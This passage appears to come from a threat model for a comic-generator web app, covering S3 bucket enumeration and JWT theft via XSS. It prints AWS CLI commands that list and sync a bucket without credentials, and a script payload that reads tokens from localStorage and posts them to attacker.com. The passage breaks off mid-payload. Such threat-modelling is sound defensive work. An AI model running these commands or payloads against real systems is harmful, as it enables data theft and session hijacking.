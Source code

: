
### Attack 4.2: S3 Bucket Enumeration and Access
**Attack Vector:** Unauthenticated  
**Complexity:** Low  
**Impact:** High  
**MITRE ATT&CK:** T1530 (Data from Cloud Storage)

#### Description
If S3 bucket has public read access or predictable names, attacker can enumerate and download all comic images.

#### Attack Steps
```bash
# Step 1: Identify S3 bucket name from API responses or errors
# Bucket format: S3_BUCKET_NAME from config

# Step 2: Attempt direct access
aws s3 ls s3://comic-generator-bucket/ --no-sign-request

# Step 3: Download all public objects
aws s3 sync s3://comic-generator-bucket/users/ ./stolen_comics/ --no-sign-request

# Step 4: Enumerate user IDs and comic IDs
# S3 Key format: users/{userId}/comics/{comicId}/panels/{panelId}.png

# Step 5: Reconstruct entire comic library
for user_id in $(cat discovered_uuids.txt); do
  aws s3 sync s3://comic-generator-bucket/users/$user_id/ ./comics/$user_id/
done
```

#### Impact Assessment
- Mass data breach of all user comics
- Privacy violation
- Intellectual property theft
- Competitive intelligence gathering

---

### Attack 4.3: JWT Token Theft via XSS
**Attack Vector:** Client-Side  
**Complexity:** Medium  
**Impact:** High  
**MITRE ATT&CK:** T1539 (Steal Web Session Cookie)

#### Description
If XSS vulnerability exists (currently protected by input validation but no CSP), attacker can steal JWT tokens.

#### Attack Steps
```html
<!-- Payload injected via compromised dependency or stored XSS -->
<script>
  // Steal tokens from localStorage/sessionStorage
  const tokens = {
    access: localStorage.getItem('access_token'),
    refresh: localStorage.getItem('refresh_token'),
    cognito: localStorage.getItem('CognitoIdentityServiceProvider.keys')
  };
  
  // Exfiltrate to attacker server
  fetch('https://attacker.com/collect', {
    method: 'POST',
    body: JSON.stringify({
```